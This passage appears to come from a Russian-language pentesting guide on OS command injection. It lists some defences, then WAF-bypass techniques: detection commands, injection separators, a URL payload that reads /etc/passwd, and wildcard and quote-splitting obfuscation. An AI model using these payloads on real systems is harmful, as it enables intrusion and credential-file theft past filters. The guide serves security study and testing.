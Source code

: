 1. **Использование встроенных API**:
    - Применяйте функции языка программирования (например, `mkdir("dir name")`), вместо системных команд (например, `mkdir /dir_name`).
2. **Экранирование метасимволов**:
    - Используйте встроенные функции для экранирования, такие как `escapeshellarg()` или `escapeshellcmd()` в PHP.
3. **Параметризация и валидация входных данных**:
    - Применяйте механизмы, которые отделяют команды от аргументов, и проверяйте вводимые данные:
        - Для команд используйте whitelist.
        - Для параметров — регулярные выражения.

## Способы обхода защиты

### 1. Определение наличия WAF

Используйте следующие инструменты для проверки наличия WAF на веб-приложении:

- `nmap -p80 --script http-waf-detect <host>` — определяет, защищено ли приложение WAF.
- `nmap -p80 --script http-waf-fingerprint <host>` — определяет наличие и версию WAF.
- `wafw00f.py <url>` — Python-скрипт для идентификации WAF.

### 2. Проверка фильтров WAF

Для тестирования фильтров WAF можно использовать различные подстановочные знаки. Примеры команд:

- `; ls`
- `%0a ls`
- `$(ls)`
- `'ls'`
- `& ls` или `%26`
- `&& ls` или `%26%26`
- `| ls`
- `|| ls`

Пример URL с экранированием:

```
<http://example.com/some-dir/userData.php?dir=%3Bcat%20%2Fetc%2Fpasswd>
```

### 3. Использование подстановочных знаков

На Linux можно использовать подстановочные знаки в Bash для обхода фильтров:

- Пример: строка `cat /etc/passwd` может быть преобразована в `/???/??t /???/??ss??`, где `?` заменяется на любые символы.

### 4. Конкатенация строковых литералов

Преобразовать строку `/bin/ls` можно так:

- `'/b'i'n/l's'` — выполнится как оригинал.

### 5. Двойной обратный слеш
